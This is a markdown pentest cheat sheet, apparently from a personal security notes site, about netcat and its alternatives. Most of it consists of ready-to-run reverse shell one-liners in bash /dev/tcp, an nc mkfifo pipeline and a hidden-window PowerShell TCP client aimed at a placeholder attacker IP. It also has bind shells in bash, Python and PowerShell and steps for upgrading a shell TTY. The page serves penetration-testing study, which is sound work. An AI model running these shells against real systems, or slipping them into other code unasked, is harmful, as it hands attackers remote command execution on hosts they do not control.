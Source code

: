 # Netcat and alternatives

## What is it

Netcat, ncat, or nc, is an excellent network utility for interacting with TCP/UDP ports. It can be used for many things during a pentest. Its primary usage is for connecting to shells.  
In addition to that, netcat can be used to connect to any listening port and interact with the service running on that port.  
For example, SSH is programmed to handle connections over port 22 to send all data and keys.  
We can connect to TCP port 22 with netcat `netcat 10.10.10.10 22`

> *Source HTB Academy*

## Reverse shell

- `nc -lvnp 1234` set a listener
  - `-l` Listen mode, to wait for a connection to connect to us.
  - `-v` Verbose mode, so that we know when we receive a connection.
  - `-n` Disable DNS resolution and only connect from/to IPs, to speed up the connection.
  - `-p 1234` Port number netcat is listening on, and the reverse connection should be sent to.

> Note we can use rlwrap in front of it this will allow us to use the arrows like in an usual shell

- From our target
  - `bash -c 'bash -i >& /dev/tcp/attack-machine-ip/1234 0>&1'`
  - or `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attack-machine-ip 1234 >/tmp/f`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacking-machine-ip",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

## Bind shell

- Start a bind shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
  - or `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
  - in powershell `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`

- Connect to your bind shell with netcat
  - `nc target-ip 1234`

## Upgrade TTY

- `python -c 'import pty; pty.spawn("/bin/bash")'`
- `ctrl+z` background shell and get back on local terminal
- `stty raw -echo`
- `fg`
- `Enter` 2 times to get back shell or `reset` and enter.
- In another tab `echo $TERM` and `stty size`
- Back to netcat shell
  - `export TERM=xterm-256color` or the value of the $term we got previously
  - `stty rows 67 columns 318` put the values you had from ssty size

## Transfert files with netcat

- See here my documentation on [how to transfert files with netcat](https://csbygb.gitbook.io/pentips/post-exploitation/files-transfert#netcat)

## Netcat alternatives

### For Windows

- [Powercat](https://github.com/besimorhino/powercat)

### Socat

- [Socat](https://linux.die.net/man/1/socat)
- Can be used to upgrade shell to [fully interactive TTY shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat)
- [Stand alone binary](https://github.com/andrew-d/static-binaries)

